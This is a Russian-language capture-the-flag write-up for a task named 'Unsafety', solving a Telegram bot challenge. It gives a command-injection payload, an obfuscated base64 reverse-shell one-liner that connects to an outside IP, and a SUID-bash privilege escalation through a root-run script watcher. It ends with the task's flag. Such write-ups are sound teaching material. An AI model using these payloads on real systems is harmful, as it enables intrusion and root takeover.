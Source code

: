 # Unsafety

## Описание:

Sometimes what seems to be safe is not safe

| Название | Сложность | Автор |
|------|-----|-------|
| Unsafety | Medium |[@MrNansy](https://t.me/MrNansy) |


## TLDR

CMD injection to RCE, binary pwn to privilege escalation

---
## Решение:

В интерфейсе веб-приложения находим несколько ссылок, одна из которых ведет на телеграм-бота `https://t.me/russky_defense_bot`

Немного пообщавшись с ботом, понимаем, что форма поиска уязвима к SQL Injection

<img width="796" alt="изображение" src="https://github.com/user-attachments/assets/3e697e41-3ab4-4020-9e9d-3aa548963ada" />

Однако в решении задания это не поможет. Однако нагрузка вида 

```
/search ; sleep 5
```

Подтвердит предположение, что бот уязвим к CMD инъекции. Далее пробрасываем себе шелл

```
/search ; echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTU4LjE2MC4xNDMuNjIvNDQ0NCAwPiYx' | base64 -d | bash
```

Попав на машину видим, что в фоне от имени root запущен следующий скрипт:

```
import time
import subprocess
import os
import logging
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler
import threading

UPLOAD_DIR = "/var/www/scripts"

logging.basicConfig(
    filename='/var/log/file_exec.log',
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)

class ExecuteHandler(FileSystemEventHandler):
    def on_created(self, event):
        if not event.is_directory:
            filepath = event.src_path
            logging.info(f"Новый файл обнаружен: {filepath}")
            if filepath.endswith(".sh") or filepath.endswith(".py") or filepath.endswith(".pl"):
                logging.info(f"Выполнение скрипта: {filepath}")
                thread = threading.Thread(target=execute_script, args=(filepath,))
                thread.start()
            else:
                logging.warning(f"Неподдерживаемый тип файла: {filepath}")

def execute_script(filepath):
    try:
        subprocess.Popen(
            ['bash', filepath],
            stdin=subprocess.DEVNULL,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL,
            preexec_fn=os.setpgrp
        )
        logging.info(f"Скрипт {filepath} успешно выполнен.")
    except Exception as e:
        logging.error(f"Не удалось выполнить скрипт {filepath}: {e}")

def start_monitoring():
    event_handler = ExecuteHandler()
    observer = Observer()
    observer.schedule(event_handler, UPLOAD_DIR, recursive=False)
    observer.start()
    logging.info("Сервис выполнения файлов запущен")
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        observer.stop()
    observer.join()

if __name__ == "__main__":
    start_monitoring()
```

Скрипт мониторит и запускает другие скрипты, попадающие в директорию  `/var/www/scripts`

Пишем наш небольшой скрипт на любом поддерживаемом языке:

```shell
echo -e '#!/bin/bash\ncp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /var/www/scripts/pwn.sh
```

Ждем пару секунд и получаем в `/tmp` рутовый бинарник баша с SUID-битом 

PWNed!

## Flag:
RDG{73l36r4m_b075_c4n_4l50_b3_un54f3}
